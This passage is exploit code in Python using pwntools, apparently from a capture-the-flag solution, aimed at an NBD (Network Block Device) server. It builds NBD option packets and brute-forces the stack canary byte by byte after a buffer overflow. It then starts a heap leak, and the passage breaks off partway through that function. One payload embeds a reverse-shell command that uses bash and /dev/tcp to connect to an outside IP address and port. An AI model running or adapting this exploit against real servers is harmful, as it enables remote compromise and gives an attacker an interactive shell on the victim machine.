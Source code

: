 ```python
    sn(p32(n,endian='big'))
def NBD_OPT_EXPORT_NAME(payload):
    anum(1)
    anum(len(payload))
    sn(payload)
def NBD_OPT_LIST():#baned
    sn(p64(0x54504f4556414849))
    anum(3)
    anum(1)    
def NBD_OPT_STARTTLS(size,c):#Set stack
    anum(5)
    anum(size)
    sn(c)
def NBD_OPT_INFO(buf):
    anum(7)
    anum(len(buf)+4)
    anum(len(buf)+4)
    sn(buf)
    p.read()
    pad = b" "*0x10+b'''sleep 3;bash -c 'exec bash -i &>/dev/tcp/49.234.220.122/20191 <&1';'''*0x6
    sn(pad.ljust(len(buf)+4,b'\0'))
    sn(p16(0,endian='big'))
    p.readuntil("nown")
def single_req(base,guess):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    NBD_OPT_INFO(base+guess)
    p.read(timeout=1)
def req(base,length):
    res = b""
    global p
    for x in range(length):
        flag=0
        for _ in range(0x100):
            log.success(f"Trying Pos:{x}:{hex(_)}")
            try:
            #if(1):
                guess = _.to_bytes(1,'little')
                single_req(base+res,guess)
                res+=guess
                flag=1
                break
            except:
                p.close()
                continue
        if(not flag):
            return 0
        log.warning(hex(u64(res.ljust(8,b'\0'))))
    res = u64(res.ljust(8,b'\0'))
    log.warning(hex(res))
    input()
    return res
def canary():
    base=b"A"*(0x408)+b'\0'
    length=7
    return req(base,length)
def leak_heap():
    global p

    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    length = 6
```
